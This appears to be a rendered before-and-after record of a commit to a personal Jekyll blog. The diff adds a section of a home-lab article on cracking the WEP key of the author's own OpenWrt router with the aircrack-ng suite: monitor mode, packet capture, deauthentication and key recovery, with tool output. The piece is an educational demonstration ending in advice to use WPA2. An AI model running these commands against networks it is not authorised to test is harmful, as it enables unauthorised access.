

Before and after one commit to axiomiety/axiomiety.github.io, a Jekyll site: the page built from articles/misc_wireless_insecurity.markdown, in a window 1280 px wide and 1400 px high, scrolled down 5104 px. Shown: the whole window, without its empty margins (298-981 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; before the commit the page ends 5734 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
with wep

```diff
--- a/articles/misc_wireless_insecurity.markdown
+++ b/articles/misc_wireless_insecurity.markdown
@@ -201,3 +201,46 @@
 ### Level 0x2 ###
 
 Let's up the ante a bit by enabling WEP on the router. And we'll leave the SSID hidden too.
+
+In order to obtain the WEP key, we need to capture a lot of traffic - specifically, we're looking for IVs (Initialisation Vectors). We won't crafting our own tools for this, but use the `air`-suite instead. Let's start by creating a monitor interface: `airmon-ng start wlan0`.
+
+We can then start listening for traffic with `airodump-ng --bssid 10:fe:ed:61:fa:e8 --channel 11 mon0`:
+
+     CH 11 ][ Elapsed: 7 mins ][ 2014-09-26 22:53
+
+     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
+
+     10:FE:ED:61:FA:E8  -63 100     3617    33100    0  11  54e. WEP  WEP         OpenWrt
+
+     BSSID              STATION            PWR   Rate    Lost    Frames  Probe
+
+     10:FE:ED:61:FA:E8  00:26:37:97:9A:7E  -56   11e-11      0    46737
+
+Technically we could listen on passively and collect packets as they go - but if it's a quiet network, it'll take ages for us to get enough packets to start cracking the key. As described on the [aircrack wiki](http://www.aircrack-ng.org/doku.php?id=simple_wep_crack), normal traffic does not generate IV packets quickly. What does however, is client authentication. As this is our own network and we're not trying to be subtle, we can force clients to de-authenticate (cf above when we used `aireplay-ng -0 1 -a 10:fe:ed:61:fa:e8 mon0` to blindly broadcast deauth packets to every client).
+
+The question is though, how many IVs are sufficient. It seems to really depend - sometimes you might get lucky and only need a hanful - others you might need to just wait it out. I set up the router to use a 40bit key because it was taking too long with 104bit one (heh).
+
+Once you feel you have collected enough, `ctrl-c` airodump-ng (note you can re-run it, and it will just keep incrementing the packet dumps). Side note - in the interest of saving space, you can ask airodump-ng to only capture IVs with the `-ivs` flag. We can now try to crack the key using `aircrack-ng OpenWrt.dump-0*.ivs`.
+
+I was fairly lucky, and the tool managed to recover the key with only 768 IVs:
+
+                                          Aircrack-ng 1.2 beta1
+
+
+                              [00:00:03] Tested 529255 keys (got 768 IVs)
+
+       KB    depth   byte(vote)
+        0   86/ 87   F6(1024) 08( 768) 0A( 768) 15( 768) 1A( 768) 1B( 768) 1C( 768)
+        1    5/  8   AA(1792) 05(1536) 17(1536) 26(1536) 4F(1536) 64(1536) 65(1536)
+        2    8/  9   E0(1792) 33(1536) 37(1536) 48(1536) 7E(1536) 98(1536) BA(1536)
+        3   30/  3   F5(1536) 15(1280) 1B(1280) 1C(1280) 50(1280) 57(1280) 5A(1280)
+        4    8/  4   FA(1792) 13(1536) 22(1536) 45(1536) 53(1536) 62(1536) AE(1536)
+
+                         KEY FOUND! [ 69:72:69:73:68 ] (ASCII: irish )
+      Decrypted correctly: 100%
+
+And voila - key found!
+
+### Wrapping up ###
+
+We've briefly shown that security through obscurity doesn't work - hidden SSIDs don't stay hidden for long. Likewise, MAC address filtering can be bypassed easily. And finally, Wired Equivalent Privacy (WEP) doesn't offer much privacy at all. Not to say it's useless, but just like medieval fortifications, security is best done through layers. And for the rest of us, there's always WPA2!
```
Also changed, not shown: other parts of articles/misc_wireless_insecurity.markdown (+1 -1 lines).
